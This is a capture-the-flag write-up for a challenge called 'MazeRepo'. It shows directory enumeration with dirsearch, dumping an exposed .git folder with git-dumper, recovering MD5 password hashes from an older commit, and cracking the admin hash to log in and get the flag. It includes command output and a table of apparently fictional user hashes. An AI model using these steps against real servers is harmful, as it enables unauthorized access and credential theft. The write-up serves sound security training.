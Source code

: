 ```yaml
---
layout: default
title: MazeRepo
permalink: /:path/
nav_order: 2
---
```


# MazeRepo
> Points: 500

# Description

> You are about to witness a repository that has more than it meets the eye! Some think it as a maze but I would say it's the mirror that deceives you the most :)
>
> `nc 18.141.84.203 58160`
>
> The above port will spawn an instance of your challenge please do not attack it.
>
> Note: Hint #1 can be exchanged on the discord server with fishes. Hints here are hints #2 onwards.

# Solution

Starting the challenge and viewing the provided webpage does not provide much information regarding the type of exploit.

![](MazeRepo1.png)

Next, we enumerate standard web directories using gobuster and dirsearch. Using dirsearch yields the following results.

```bash
[15:10:08] 403 -  281B  - /.php                                            
[15:10:15] 200 -  942B  - /backup/                                          
[15:10:15] 301 -  324B  - /backup  ->  http://18.141.84.203:60314/backup/   
[15:10:15] 403 -  281B  - /cgi-bin/                                         
[15:10:20] 200 -    1KB - /index.php                                        
[15:10:20] 200 -    1KB - /index.php/login/                                 
[15:10:26] 403 -  281B  - /server-status                                    
[15:10:26] 403 -  281B  - /server-status/  
```

Visiting the `/backup` there is a file called `users.db` which is likely an sqlite database. Doing a simple `cat` on the file shows the following information.

```bash
└─# cat users.db 
NN/=tableloginloginCREATE TABLE login (
        id INTEGER PRIMARY KEY NOT NULL,
        username TEXT NOT NULL,
        password TEXT NOT NULL,
        email TEXT NOT NULL,
        admin INTEGER NOT NULL
```

The information does not help us with the exploitation.

Doing further enumeration using dirsearch on the `/backup` folder,

```bash
└─# dirsearch -u http://18.141.84.203:60314/backup
   
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )


Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927


Output File: /home/kasm-user/.dirsearch/reports/18.141.84.203-60314/-backup_22-06-24_15-13-56.txt

Error Log: /home/kasm-user/.dirsearch/logs/errors-22-06-24_15-13-56.log

Target: http://18.141.84.203:60314/backup/

[15:13:56] Starting: 
[15:13:57] 301 -  329B  - /backup/.git  ->  http://18.141.84.203:60314/backup/.git/
[15:13:57] 200 -    3KB - /backup/.git/                     
[15:13:57] 200 -   73B  - /backup/.git/description
[15:13:57] 200 -   40B  - /backup/.git/COMMIT_EDITMSG      
```
There is a `.git` directory inside of backup. Using `git-dumper` it is possible to dump out the git repo.

This can be done with this command,  `git-dumper http://18.141.84.203:60314/backup/ mazerepo`, which dumps the git directory to a new folder, `mazerepo`.

Inside of `mazerepo` is a `users.db` which is identical to above database. Checking the branches using `git branch -a` , shows that there is another branch called **develop**.

```bash
└─# git branch -a
  develop
* main
  remotes/origin/develop
  remotes/origin/main
```

Switching to the **develop** branch and viewing the history. There is a commit with the description `[SECURITY FIX] Removed password hashes.` An example of the log can be found below.

```bash
└─# git log 
commit 08639b3c3ee4164e49007d5cf7b6f38ea0f2c316 (HEAD -> develop, origin/develop)
Author: Samantha McCarthy <samantha@insecurecorp.com>
Date:   Sun Mar 20 04:46:45 2022 +0000

    [SECURITY FIX] Removed password hashes.

commit db076c2c5954771f1c6878f174d0ed9c310c9e98
Author: Samantha McCarthy <samantha@insecurecorp.com>
Date:   Sun Mar 20 04:45:39 2022 +0000

    Added initial userbase.

commit 6dd7f1db2b923ab81f8c3a61a1af072a95dbb2db (origin/main, main)
Author: Taylor Ivanovich <taylor@insecurecorp.com>
Date:   Sun Mar 20 04:43:15 2022 +0000

    Added db with schema.
```

Switching to the commit `db076c2c5954771f1c6878f174d0ed9c310c9e98` and listing the databases, displays some usernames and hashed passwords.

```bash
└─# sqlite3 users.db 
SQLite version 3.38.5 2022-05-06 15:25:27
Enter ".help" for usage hints.
sqlite> select * from loginl
1|john|c67a0e602a14bd3c044c211a247543bc|john@n0h4ts.com|0
2|mary|a0730c2cbc70248b02deadef08df9c2d|mary@n0h4ts.com|0
3|andrew|37e6da31612b9af7f35334762610bbdf|andrew@n0h4ts.com|0
4|jim|e2b5357bebf845e2b65a778cb10c6a89|jim@n0h4ts.com|0
5|candace|ef86e416090141499abf1067a0ef19cc|candace@n0h4ts.com|0
6|martha|cf437898f42863588bede0d6812b2eba|martha@n0h4ts.com|0
7|elliot|24af1b08c221ce3916ae34252dd8feef|elliot@n0h4ts.com|0
8|tom|c2991a5d085d8d36b6857479fdf3f6cb|tom@n0h4ts.com|0
9|michael|a6539c35ec07965956f1de7b3ec36971|michael@n0h4ts.com|1
10|sara|24a865f97e426bdb8b7ccc8720ae635a|sara@n0h4ts.com|0
```

Using crackstation, on the passwords, we can retrieve that plaintext password for **micheal**.

![](MazeRepo2.png)

Using the credentials to log into the webpage, the flag is displayed there.

![](MazeRepo3.png)

# Flag

`STANDCON22{bl33d!ng_g!t_r3p0_!s_4_tr34sur3_tr0v3}`